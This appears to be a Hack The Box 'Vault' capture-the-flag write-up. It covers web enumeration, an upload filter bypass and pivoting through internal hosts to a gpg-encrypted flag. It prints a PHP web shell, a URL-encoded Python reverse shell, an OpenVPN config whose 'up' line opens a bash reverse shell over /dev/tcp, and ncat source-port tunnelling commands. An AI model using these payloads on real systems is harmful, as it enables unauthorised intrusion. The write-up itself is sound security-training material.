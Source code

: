 ```yaml
---
title: HTB Vault Writeup
date: 2024-12-21
categories: [CTF, HTB]
tags: [CTF, HTB, Medium]
description: HTB Vault Writeup
---
```

# Nmap
```bash
nmap -Pn -v -p- -sV --min-rate 1000 vault.htb -oN vault_nmap.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

# Foothold (Port 80)
Main page hints there is possibly a directory related to "sparklays"
![Screenshot](/assets/img/vault-writeup-screenshot/image_1.png)
Turns out there is a directory under http://vault.htb/sparklays
![Screenshot](/assets/img/vault-writeup-screenshot/image_1_1.png)

Fuzzing with Gobuster
```bash
gobuster dir -u http://vault.htb/sparklays -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,php -o vault.htb_sparklays.txt
```

Subdirectory in sparklays/design
```bash
gobuster dir -u http://vault.htb/sparklays/design -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,php -o vault.htb_sparklays_design.txt
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_3.png)

Found admin login page at admin.php
```
http://vault.htb/sparklays/admin.php
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_2.png)

Another page names design.html
```
http://vault.htb/sparklays/design/design.html
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_4.png)
The link leads to
```
http://vault.htb/sparklays/design/changelogo.php
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_5.png)

Uploading test.png returns success
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_1.png)

And the file can be viewed at
```
http://vault.htb/sparklays/design/uploads/<filename>
```

But uploading test.php returns a failed message
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_2.png)

Fuzzing with Burp Intruder shows that it allows uploading .php5 files
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_3.png)

Uploading a simple file to test code execution with system()
```php
<?php
echo "hello\n";
system($_GET['cmd']);
?>
```
can use system()

![Screenshot](/assets/img/vault-writeup-screenshot/image_6.png)
Reverse shell from revshells.com
```bash
# Python3 #2 URL encoded
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.24%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_7.png)
# User.txt

![Screenshot](/assets/img/vault-writeup-screenshot/image_8.png)

SSH password in /home/dave/Desktop
![Screenshot](/assets/img/vault-writeup-screenshot/image_9.png)

![Screenshot](/assets/img/vault-writeup-screenshot/image_10.png)
Further enumeration shows:
- IP address for other servers
- A potential password or encryption key
![Screenshot](/assets/img/vault-writeup-screenshot/image_11.png)

No nmap installed, therefore using a bash script to scan for ports (https://github.com/mnorin/bash-scripts/blob/master/utils/portscan.sh)

![Screenshot](/assets/img/vault-writeup-screenshot/image_12.png)

Tunnel to DNS + Configurator server
```bash
ssh -L 8888:192.168.122.4:80 dave@vault.htb
```

Main page
![Screenshot](/assets/img/vault-writeup-screenshot/image_13.png)

Second link goes to
```
http://192.168.122.4/vpnconfig.php?function=testvpn
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_14.png)

This suggests that it allows editing and executing a .ovpn file.

There is a blog post about code execution using ovpn files. (https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

.ovpn file used
```
remote 192.168.122.4
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/8080 0<&1 2>&1&'"
```

The flag is in /home/dave/user.txt
![Screenshot](/assets/img/vault-writeup-screenshot/image_15.png)

# Root.txt
SSH password for dave on 192.168.122.4 (DNS) is in home directory
![Screenshot](/assets/img/vault-writeup-screenshot/image_16.png)

Checking /etc/hosts shows the IP of the Vault server
![Screenshot](/assets/img/vault-writeup-screenshot/image_17.png)

![Screenshot](/assets/img/vault-writeup-screenshot/image_18.png)

Interesting commands to add routes to Vault subnet
```bash
http://192.168.1.11:8888/DNS.zip

root@DNS:/var/www/DNS# cat interfaces 
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
```
However, the IP does not seem to be reachable.
# Checked Writeup (Got Stuck Here)
Issue:
- Identified the target IP to pivot to, but cannot seem to reach the server

Checked writeup at this point (https://0xdf.gitlab.io/2019/04/06/htb-vault.html)

So by grepping the IP under log files, there are previously ran command that hints on how the users reached the DNS server from Vault
```bash
grep -rHa "192.168.5.2" /var/log
```

Commands previously ran by dave
![Screenshot](/assets/img/vault-writeup-screenshot/image_19.png)
```
/var/log/auth.log:Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
/var/log/auth.log:Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
/var/log/auth.log:Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
```

Creates a tunnel with a certain source port (as ssh cannot specify source port)
- that's why nmap returned nothing, as it only allow traffic with src port 53 or 4444

```bash
/usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
```

Then ssh as dave, same password as before
```bash
ssh dave@127.0.0.1 -p 1234
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_20.png)

A root.txt.gpg file in the home directory
![Screenshot](/assets/img/vault-writeup-screenshot/image_21.png)

Listing keys on each host
```bash
gpg --list-keys
```

There is a key on ubuntu host (first host)

![Screenshot](/assets/img/vault-writeup-screenshot/image_22.png)

Copy file from vault to ubuntu using scp
```bash
# From vault to DNS
scp -P 1234 dave@127.0.0.1:~/root.txt.gpg .

# From DNS to ubuntu
scp dave@192.168.122.4:~/root.txt.gpg .
```

Decrypt with passphrase shown in /home/dave/Desktop/key
![Screenshot](/assets/img/vault-writeup-screenshot/image_23.png)
# Just for fun
## Shell breakout
https://systemweakness.com/how-to-breakout-of-rbash-restricted-bash-4e07f0fd95e
Method -3
```bash
ssh dave@127.0.0.1 -p 1234 -t bash
```
